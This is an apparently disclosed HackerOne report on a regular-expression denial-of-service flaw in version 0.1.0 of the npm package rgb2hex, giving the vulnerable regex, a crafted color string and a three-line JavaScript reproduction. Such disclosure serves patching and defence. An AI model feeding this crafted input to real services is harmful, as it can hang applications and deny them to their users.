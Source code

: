 # `rgb2hex` is vulnerable to ReDoS when parsing crafted invalid colors

## Report Details
- **Report ID**: 319629
- **URL**: https://hackerone.com/reports/319629
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-25T21:40:10.573Z
- **Disclosed**: 2019-12-13T17:04:32.073Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a ReDoS in `rgb2hex`.
It allows to cause Denial of Service by trying to parse a crafted color string.

# Module

**module name:** rgb2hex
**version:** 0.1.0
**npm page:** `https://www.npmjs.com/package/rgb2hex`

## Module Description

> Parse any rgb or rgba string into a hex color. Lightweight library, no dependencies!

## Module Stats

6 788 downloads in the last day
119 402 downloads in the last week
478 341 downloads in the last month

~5 740 092 estimated downloads per year

# Vulnerability

## Vulnerability Description

ReDoS.

- regex: `/(.*?)rgb(a)*\((\d+),(\d+),(\d+)(,[0-9]*\.*[0-9]+)*\)/`
- evil string: `rgb(0,0,0,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,`
- file: https://github.com/christian-bromann/rgb2hex/blob/master/index.js#L25 (and other places with the same regex)

## Steps To Reproduce:

```js
var rgb2hex = require('rgb2hex');
const color = 'rgb(0,0,0,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,0000,';
console.log(rgb2hex(color));
```

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- Arch Linux Current
- Node.js 9.5.0
- npm 5.6.0

# Wrap up

- I contacted the maintainer to let him know: N
- I opened an issue in the related repository: N

## Impact

Cause denial of service by parsing a crafted color string

## Attachments
No attachments

